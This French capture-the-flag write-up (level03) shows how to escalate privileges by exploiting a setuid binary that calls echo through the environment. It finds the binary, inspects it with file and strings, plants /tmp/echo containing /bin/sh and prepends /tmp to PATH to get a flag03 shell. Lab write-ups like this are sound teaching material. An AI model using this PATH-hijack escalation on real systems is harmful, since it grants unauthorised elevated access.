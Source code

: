 # level03

1) Commande utilisée pour trouver le fichier appartenant à `flag03` :

```bash
ls -l
```

2) Résultat notable trouvé :

Fichier : `./level03` appartenant à `flag03`

3) Exécution du binaire trouvé :

```bash
chmod +x level03
Exploit me
```

3) Inspection du binaire avec strings et file :

```bash
file level03
strings -n 6 level03 | grep echo
```
4) Résultats : 

Le binaire utilise echo depuis son PATH dans l'environnement et possède les droits de son créateur (setuid / setgid).
```bash
setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```
```bash
/usr/bin/env echo Exploit me
```

5) Objectif :

Détourner echo vers une invite de commande afin de lancer `getflag`.

```bash
echo '/bin/sh' > /tmp/echo
chmod +x /tmp/echo
```
Maintenant le script tmp/echo ouvre une invite de commande, et ensuite on change le PATH d'echo vers tmp/echo dans l'environnement.

```bash
export PATH=/tmp:$PATH
```

6) Nous voilà maintenant dans une invite de commande possédant les droits de flag03, il ne nous reste plus qu'à appeler getflag.

```bash
getflag
```
